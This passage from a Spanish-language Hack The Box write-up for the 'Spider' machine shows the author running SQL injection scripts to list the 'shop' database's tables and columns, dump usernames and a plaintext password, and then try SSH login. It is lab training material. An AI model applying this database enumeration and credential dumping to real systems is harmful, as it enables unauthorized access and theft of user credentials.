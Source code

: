 > [tables.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/spider/sqli/tables.py)

```bash
❱ python3 tables.py -d shop
[+] Table [0]: items
[+] Table [1]: messages
[+] Table [2]: support
[+] Table [3]: users
```

Solo 4 tablas, enfoquémonos principalmente en `users`.

### Extraemos las <u>columnas</u> de alguna tabla [🩺](#sqli-shop-columns) {#sqli-shop-columns}

> [columns.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/spider/sqli/columns.py)

```bash
❱ python3 columns.py -d shop -t users
[*] Tabla 'users' de la base de datos 'shop'
[+] Column [0]: id
[+] Column [1]: name
[+] Column [2]: password
[+] Column [3]: uuid
```

Opa, dos campos interesantes, `name` y `password`, pues enumerémoslos.

### <u>Dumpeamos la data</u> de alguna columna [🩺](#sqli-shop-dump-data) {#sqli-shop-dump-data}

> [dump_data.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/spider/sqli/dump_data.py)

**Columna <u>name</u>**:

```bash
❱ python3 dump_data.py -d shop -t users -c name
[*] Extrayendo columna 'name' de la tabla 'users' en la base de datos 'shop'
[+] name [0]: chiv
[+] name [1]: lanz
```

Bien, ahora veamos las contraseñas...

**Columna <u>password</u>**:

```bash
❱ python3 dump_data.py -d shop -t users -c password
[*] Extrayendo columna 'password' de la tabla 'users' en la base de datos 'shop'
[+] password [0]: ch1VW4sHERE7331
[+] password [1]: hola
```

:O Vemos la contraseña de **chiv** en texto plano (y la mía e.e). Tenemos dos espacios para probarlas, en la web o con **SSH**...

```bash
❱ ssh chiv@spider.htb
chiv@spider.htb: Permission denied (publickey).
```
